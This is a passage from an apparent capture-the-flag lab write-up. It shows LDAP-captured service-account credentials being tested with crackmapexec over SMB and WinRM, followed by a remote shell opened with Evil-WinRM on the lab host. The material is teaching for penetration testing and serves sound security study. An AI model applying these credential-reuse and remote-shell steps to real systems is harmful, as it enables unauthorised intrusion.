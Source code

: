 ![image-20220503145334307](https://0xdfimages.gitlab.io/img/image-20220503145334307.png)

It’s an LDAP bindRequest, with the username return\svc-printer and the simple
authentication (password) of “1edFg43012!!”.

### WinRM

#### Test Creds

The obvious next step is to look at LDAP, but before that, I’ll check and see
if these creds happen to give more direct access. They work for SMB:

    
    
    oxdf@hacky$ crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
    SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
    SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
    SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
    SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
    SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
    SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
    SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
    SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
    SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
    SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share 
    

Most interestingly, they also work for WinRM:

    
    
    oxdf@hacky$ crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
    SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
    HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
    WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
    

#### Evil-WinRM

I’ll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to connect
and get a shell:

    
    
    oxdf@hacky$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
    
    Evil-WinRM shell v3.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\svc-printer\Documents>
    

And I can access `user.txt`:
